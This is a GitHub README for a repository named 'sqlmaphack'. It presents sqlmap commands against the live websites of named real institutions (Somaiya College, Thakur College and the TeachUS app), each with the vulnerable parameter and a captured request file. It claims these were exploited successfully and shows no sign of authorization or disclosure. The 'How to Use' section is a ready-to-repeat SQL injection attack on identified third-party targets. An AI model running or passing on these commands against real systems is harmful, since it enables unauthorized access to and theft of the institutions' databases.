



# Hacking Databases using SQLMap

This repository showcases how I successfully tested the security of these databases by exploiting SQL vulnerabilities.

## Prerequisites

Before running the SQLMap commands, ensure you have the following installed:

- [SQLMap](http://sqlmap.org/)
- [Acunetix](https://www.acunetix.com/)
- Python 2.7 or Python 3.x

You will also need the request files provided in this repository:

- `somaiyaClg.txt`
- `thakur.txt`
- `teachus.txt`

These files contain the HTTP requests which is going to use to connect to the web server

## Clone Repository
```bash
git clone https://github.com/seanvishwakarma/sqlmaphack.git
```

## How to Use

### 1. Somaiya College Website

The SQL injection vulnerability was found in the `id` parameter.

```bash
sqlmap -r somaiyaClg.txt -p id --batch -o --level 5 --risk 3 --dbs
```


### 2. Thakur College Website

For Thakur College, the vulnerability was found in the `password` parameter.

```bash
sqlmap -r thakur.txt -p password --batch -o --level 5 --risk 3 --time-sec=5 --dbs
```



### 3. TeachUS App Database

The TeachUS app database was vulnerable through the college parameter.

```bash
sqlmap -r teachus.txt -p college --batch -o --level 5 --risk 3 --dbs
```

